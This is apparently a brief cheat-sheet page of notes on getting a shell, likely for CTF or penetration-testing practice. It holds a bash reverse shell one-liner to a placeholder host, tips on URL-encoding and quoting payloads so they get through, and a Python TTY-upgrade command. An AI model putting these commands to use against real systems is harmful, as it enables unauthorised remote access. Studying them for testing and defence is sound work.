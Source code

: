 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 



## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

> if it is a bash reverse shell, e.g. `bash -i >& /dev/tcp/10.10.x.x/1234 0>&1` try precede it with `bash -c` 

> try URL encoding / double URL encoding

> quotations conflict, how to deal with it ?? 

    # embrace the whole payload with double qoutes, then escape the inside ones
    </br>
    # there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'